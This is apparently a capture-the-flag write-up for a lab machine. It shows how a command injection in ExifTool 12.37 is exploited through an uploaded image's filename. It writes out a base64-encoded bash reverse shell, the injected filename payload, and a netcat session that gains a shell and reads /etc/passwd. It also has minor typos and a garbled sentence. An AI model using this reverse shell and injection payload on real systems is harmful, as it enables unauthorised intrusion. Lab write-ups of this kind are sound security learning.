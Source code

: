 
When uploading a normal image you can see the exiftool version `ExifTool Version Number  : 12.37` a quick google search and you can see there is a command injection vulnerability that includes the |(pipe) symbol, https://gist.github.com/ert-plus/1414276e4cb5d56dd431c2f0429e4429 so I tried to do some stuff like I don't know maybe get a shell. So thats exactly what I'm going to do. In order to get a shell on the machine you need to do as follows:
1. First you want to encode your command with base64. 
   
   
  ```
    $ echo "bash -i >& /dev/tcp/HOST/PORT 0>&1" | bash64
    YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC44OC85MDk5IDA+JjEK
  ``` 
   
   
2. We can obtain a reverse shell by intercepting image upload POST request with Burp and changing the filename **don't forget to open a netcat listener before entering this request**:
   
   
  ``` 
    filename="$(echo YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC44OC85MDk5IDA+JjEK | base64 -d | bash) |"
  ``` 
   


3. Get a shell:
   
  ```
   $ nc -lnvp 9099                  
    listening on [any] 9099 ...
    connect to [10.10.14.88] from (UNKNOWN) [10.10.11.197] 32898
    bash: cannot set terminal process group (955): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@investigation:~/uploads/1676742128$ which python3
    which python3
    /usr/bin/python3
    www-data@investigation:~/uploads/1676742128$ python3 -c 'import pty;pty.spawn("/bin/bash")'
    <128$ python3 -c 'import pty;pty.spawn("/bin/bash")'
    www-data@investigation:~/uploads/1676742128$
  ```


Now lets see our available users:

```

$ cat /etc/passwd | grep bash
root:x:0:0:root:/root:/bin/bash
smorton:x:1000:1000:eForenzics:/home/smorton:/bin/bash

```

so we have two valid users, smorton is short for the Windows Event Logs for Analysis.msg file, so now lets really open in it I opened it on windows because it's a microsoft outlock message, but if you're using linux than you can use msgconvert and after that add it to thunderbird and you'll get it.
So, we can see a interesting zip file called evtx-logs.zip inside there is a file called security.evtx "security.evtx" is a Windows event log file that records security-related events and activities on a Windows system. So I'm going to use windows for this but Linux users can use wine with evtxdumb and it'll work perfect.

